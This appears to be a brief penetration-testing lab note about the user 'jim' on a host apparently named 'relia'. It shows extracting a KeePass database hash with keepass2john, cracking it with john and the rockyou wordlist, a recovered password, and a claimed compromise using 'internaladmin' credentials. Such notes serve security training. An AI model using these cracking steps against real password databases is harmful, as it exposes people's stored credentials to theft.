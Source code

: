 Initially, we are *relia\jim*.
We have keepass installed.

We will find: *Users\jim\Documents\Database.kdbx*
We will crack the password using john:

Password found: **mercedes1**.

Pwned using internaladmin credentials.
```sh
keepass2john Database.kdbx > Keepasshash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
```
